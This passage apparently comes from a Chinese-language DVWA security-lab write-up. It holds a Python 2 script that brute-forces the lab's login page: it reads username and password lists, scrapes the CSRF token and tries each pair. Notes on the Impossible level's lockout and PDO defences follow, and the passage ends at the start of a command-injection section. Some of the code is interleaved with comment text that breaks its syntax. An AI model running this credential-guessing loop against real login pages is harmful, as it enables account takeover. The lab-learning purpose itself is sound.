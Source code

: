 ```python
                                           //Python split() 通过指定分隔符对字符串进行切片，如果参数 num 有指定值，则分隔 num+1 个子字符串,返回分割后的字符串列表.这样即使我们的`txt`是横着些的也没问题了.
        line = ':'.join(line)  //Python join() 方法用于将序列中的元素以指定的字符连接生成一个新的字符串。为刚才的split进一步处理   join()方法语法：str.join(sequence)
        # print line
        usernames.append(line)  //append() 方法用于在列表末尾添加新的对象。
        
with open('password.txt', 'r') as f:
    for line in f.readlines():        
        line = line.strip().split('\t', 1)
        line = ':'.join(line)
        # print line
        passwords.append(line)

###确认破解范围
for username in usernames:
    for password in passwords:
        ###确认破解动作
        #访问首页
        response = opener.open('http://' + IP + '/dvwa/vulnerabilities/brute/')
        content = response.read()
        #获取user_token
        user_token = re.findall(r"(?<=<input type='hidden' name='user_token' value=').+?(?=' />)",content)[0]
        #发送登录数据包
        url = 'http://' + IP + '/dvwa/vulnerabilities/brute/?username=' + username + '&password=' + password + '&Login=Login&user_token=' + user_token
        response = opener.open(url)
        content = response.read()
        ###确认破解结果
        print '-'*20
        print u'yonghuming:' + username
        print u'mima:' + password
        #print user_token
        if 'Username and/or password incorrect.' in content:
            print u'shibai:shibai'
        else:
            print u'chengong!!!!!!'            
        print '-'*20
```

### impossible
暂时没有时间审计代码.直接看别人的结论

可以看到Impossible级别的代码加入了可靠的防爆破机制，当检测到频繁的错误登录后，系统会将账户锁定，爆破也就无法继续。
同时采用了更为安全的PDO（PHP Data Object）机制防御sql注入，这是因为不能使用PDO扩展本身执行任何数据库操作，而sql注入的关键就是通过破坏sql语句结构执行恶意的sql命令。

所以以目前我的能力是不可能爆破的.

## Command Injection
命令注入，即命令注入，是指通过提交恶意构造的参数破坏命令语句结构，从而达到执行恶意命令的目的.PHP 命令注入攻击漏洞是PHP 应用程序中常见的脚本漏洞之一
